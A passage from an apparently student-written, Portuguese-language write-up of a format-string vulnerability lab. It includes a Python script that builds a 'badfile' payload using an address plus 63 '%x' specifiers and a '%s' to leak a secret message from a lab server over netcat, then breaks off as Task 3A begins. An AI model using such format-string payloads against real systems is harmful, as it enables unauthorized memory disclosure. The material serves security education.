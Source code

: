 Tendo em conta os resultados obtidos na alínea anterior, procede-se à criação de um ficheiro ```badfile``` que servirá de _input_ para o programa vulnerável no servidor.

Com base na informação fornecida pelo servidor, sabemos que o endereço de memória da mensagem secreta é ```0x080b4008```.

Com a ajuda de um pequeno _script_ em Python, geramos ```badfile```:

```python
 1  #!/usr/bin/python3
 2  import sys
 3  N = 1500
 4  content = bytearray(0x0 for i in range(N))
 5  
 6  address = 0x080b4008
 7  content[0:4] = (address).to_bytes(4, byteorder='little')
 8  
 9  s = (".%x"*63) + ".%s"
10  fmt = (s).encode('latin-1')
11  content[4:4+len(fmt)] = fmt
12  
13  with open('badfile', 'wb') as f:
14      f.write(content)
```

Vejamos, passo a passo, a razão daquilo que foi colocado no _script_:

- Linha 4: inicialização do _buffer_ que servirá de _input_ malicioso;
- Linhas 6 e 7: colocação do endereço da mensagem secreta no início do _buffer_, tendo em conta que estamos a trabalhar numa máquina _little-endian_. O conteúdo dos 4 primeiros bytes do _buffer_ será, portanto, ```\x08\x40\x0b\x08```;
- Linhas 9, 10 e 11: pela tarefa anterior, sabemos que existem 63 posições de memória entre o início da _string_ de formatação da função ```printf``` e o início do _input_. Então, povoamos o resto do _buffer_ com 63 ```.%x```, que farão o programa saltar na memória 63 posições, uma a uma, e, por último, com ```%s```, que indicará a ```printf``` que deve imprimir uma _string_ que se encontra na posição de memória especificada, pelo que foi feito anteriormente, no início do _buffer_ de _input_;
- Linhas 13 e 14: escrita dos conteúdos desejados para ```badfile```.

Correndo o _script_, fica, então, ```badfile``` povoado.

Resta-nos enviar o seu conteúdo como _input_ para o programa vulnerável no servidor.

Executando, no terminal do lado do cliente, ```cat badfile | nc 10.9.0.5 9090```, podemos ver, então, do lado do servidor:

![Tarefa 2B](images/LB 7/Tarefa 2B.png)

'A secret message'.

## Tarefa 3: Modificando a Memória do Programa do Servidor

### Tarefa 3A: Mudar o valor para um diferente

O procedimento a realizar é bastante semelhante àquele utilizado na tarefa anterior.
